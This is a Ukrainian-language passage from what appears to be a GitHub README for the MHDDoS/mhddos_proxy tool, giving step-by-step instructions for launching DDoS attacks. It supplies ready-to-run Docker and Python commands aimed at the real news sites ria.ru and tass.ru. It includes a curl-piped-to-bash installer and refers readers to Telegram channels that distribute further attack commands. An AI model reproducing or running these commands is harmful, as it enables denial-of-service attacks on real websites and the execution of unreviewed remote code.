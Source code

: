    * Windows ([Python](https://www.python.org/ftp/python/3.10.2/python-3.10.2-amd64.exe) [Git](https://github.com/git-for-windows/git/releases/download/v2.35.1.windows.2/Git-2.35.1.2-64-bit.exe))

<br/>

## Запуск атаки

Нижче наведені приклади атаки на Docker та Python. Загалом конкретні атаки (уже готові команди) дають багато Телеграм-каналів, які використовують даний скрипт для атак. Посилання на ці Телеграм-канали можете знайти [тут](#%D0%BA%D0%BE%D1%80%D0%B8%D1%81%D0%BD%D1%96-%D0%BF%D0%BE%D1%81%D0%B8%D0%BB%D0%B0%D0%BD%D0%BD%D1%8F). Вам потрібно лише скопіювати готовий код і вставити його в Термінал Вашого локального комп'ютера, віртуального середовища, чи віртуальної машини на онлайн-сервісі.

### Docker

Приклад коду для запуску скрипта через Docker. Детальніше про параметри скрипта [дивіться тут](#%D1%80%D0%BE%D0%B7%D0%B1%D1%96%D1%80-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D1%96%D0%B2).

**ВАЖЛИВО!** Якщо Docker викидує якусь помилку, спробуйте запустити його кілька разів (може бути таке, що не вдається зразу встановити зв'язок із проксі-серверами через велику їх нагрузку на даний момент). Якщо ж проблема залишається, то спробуйте варіант із Python нижче (бувало таке, що не вдавалося зпулити Docker імедж через його недавнє видалення, або проблеми із серверами GitHub, де цей Docker імедж зараз зберігається).

```sh
sudo docker run -it --rm ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest https://ria.ru https://tass.ru
```

### Python

Перед запуском скрипта на Python потрібно підтягнути увесь необхідний код із GitHub.

```sh
git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
cd mhddos_proxy
git clone https://github.com/porthole-ascend-cinnamon/MHDDoS.git
python3 -m pip install -r MHDDoS/requirements.txt
```

Також у Вас є можливість запустити вже готовий скрипт для Ubuntu, який скачає все необхідне, включаючи Python, Git, усі необхідні залежності, серцевий код із ГітаХабу й тд:
```sh
curl -s https://raw.githubusercontent.com/SlavaUkraineSince1991/DDoS-for-all/main/scripts/python_git_MHDDoS_proxy_install.sh | bash
```

Далі просто запускаємо скрипт. Детальніше про параметри скрипта [дивіться тут](#%D1%80%D0%BE%D0%B7%D0%B1%D1%96%D1%80-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D1%96%D0%B2).

```sh
python3 runner.py https://ria.ru https://tass.ru
```

**Увага!** Якщо виникають якісь проблеми із Python, спробуйте замість `python3` написати `python` (зокрема, так потрібно робити для Windows).
